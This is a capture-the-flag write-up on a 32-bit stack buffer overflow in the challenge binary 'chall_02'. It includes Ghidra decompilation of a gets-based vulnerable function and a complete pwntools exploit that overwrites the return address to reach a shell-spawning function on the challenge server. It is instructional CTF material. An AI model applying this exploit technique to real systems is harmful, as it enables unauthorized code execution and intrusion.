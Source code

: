 No stack canary, assume BOF; no PIE, assume ROP.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}

void win(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x12e));
  return;
}
```

From `vuln`, `gets` can be used to overwrite the return address on the stack.  `local_3e` is `0x3e` bytes from the return address, so just write out `0x3e` of garbage followed by the address for `win`.

The `system` call in `win` is actually `system("/bin/sh")`, to understand why `iVar1 = __x86.get_pc_thunk.ax(); system((char *)(iVar1 + 0x12e));` equates to that, read [ractf2020/nra#decompile-with-ghidra](https://github.com/datajerk/ctf-write-ups/tree/master/ractf2020/nra#decompile-with-ghidra).  IANS, `iVar1` is the address of the next instruction, then add `0x12e`, and then look in the disassembly at the location for the string.  In this case it's `/bin/sh`.  Welcome to x86 (32-bits).


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_02')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30002)

p.sendlineafter('Went along the mountain side.\n','foobar')

payload  = b''
payload += 0x3e * b'A'
payload += p32(binary.sym.win)

p.sendline(payload)
p.interactive()
```
